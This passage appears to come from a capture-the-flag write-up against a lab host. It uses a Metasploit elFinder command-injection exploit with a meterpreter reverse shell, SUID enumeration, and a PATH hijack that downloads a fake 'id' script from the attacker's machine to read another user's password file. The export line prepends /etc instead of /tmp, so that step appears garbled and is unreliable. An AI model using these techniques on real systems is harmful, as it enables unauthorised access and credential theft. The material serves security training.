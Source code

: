 ```bash
   2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution
   3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection
   4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection

msf6 > use 4
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 > set RHOSTS files.lookup.thm

#Use the exploit with your LHOST Data

msf6 > run
```

### Accessing as www-data
Now, we have access as the user **"www-data"**. To escalate privileges, we check the `/home` directory, where we find a user named **"think"**. Inside their folder, we locate the first flag: `user.txt`.


### Finding an Uncommon Binary

We attempt to escalate further using the following command to check for **SUID binaries**.

```bash
find / -perm /4000 2>/dev/null
```

A non-standard binary is found at **"/usr/sbin/pwm"**. Running this binary, we observe that it calls the `id` command to retrieve the username and then reads the `.passwords` file from that user's home directory.  

### Exploiting Binary Behavior
Exploiting this behavior, we can manipulate the console by creating a modified version of the `id` command to impersonate the **"think"** user. However, first, we examine `/etc/passwd` to gather additional information as what users can use the console.  

We save our custom `id` version in the `/tmp` directory and modify the **PATH** environment variable using the following commands:  
```bash
cd /tmp
wget http://your-ip:90/id
cat id
#!/bin/bash
echo "uid=33(think) gid=33(think) groups=33(think)"
export PATH=/etc:$PATH
chmod +x id
```

By doing this, we can access the **.passwords** file, which contains historical or potential passwords for this user.

